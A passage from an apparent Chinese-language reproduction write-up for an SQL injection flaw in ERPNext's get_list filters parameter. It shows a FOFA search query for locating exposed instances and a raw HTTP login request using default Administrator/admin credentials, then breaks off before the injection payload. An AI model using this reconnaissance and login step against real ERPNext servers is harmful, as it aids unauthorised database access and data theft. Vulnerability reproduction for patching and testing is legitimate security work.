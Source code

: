 
# ERPNext SQL 注入漏洞复现

### 0x01 产品简介

 ERPNext 是一套开源的企业资源计划系统。

### 0x02 漏洞概述

 ERPNext 系统frappe.model.db\_query.get\_list 文件 filters 参数存在 SQL 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

FOFA：app="ERPNext"

![](assets/1701746027-f399d191f30f784ea3efa51ed8776fbe.png)

### 0x04 漏洞复现 

获取有效cookie

```cobol
POST / HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 52

cmd=login&usr=Administrator&pwd=admin&device=desktop
```

![](assets/1701746027-def19b077e2b94140d397452dd9a6fb4.png)

尝试注
